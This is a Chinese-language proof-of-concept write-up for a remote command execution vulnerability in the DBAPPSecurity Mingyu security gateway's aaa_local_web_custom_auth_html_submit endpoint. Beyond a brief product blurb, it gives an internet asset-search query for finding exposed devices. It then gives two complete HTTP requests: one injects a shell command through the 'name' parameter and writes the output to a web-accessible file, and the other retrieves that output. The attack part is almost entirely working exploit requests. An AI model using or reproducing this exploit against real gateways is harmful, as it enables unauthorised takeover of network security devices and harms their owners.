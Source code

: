 # 安恒明御安全网关aaa_local_web_custom_auth_html_submit存在远程命令执行漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关aaa_local_web_custom_auth_html_submit存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ 特征

# 四、漏洞复现
```plain
GET /webui/?g=aaa_local_web_custom_auth_html_submit&name=;echo%09`ls`|tee%09out; HTTP/1.1
Host: 
Cookie: USGSESSID=5c727beed17c9e76eeab71453e91c784
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: keep-alive
```

获取命令执行结果

```plain
GET /webui/out HTTP/1.1
Host: 
Cookie: USGSESSID=5c727beed17c9e76eeab71453e91c784
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: keep-alive
```
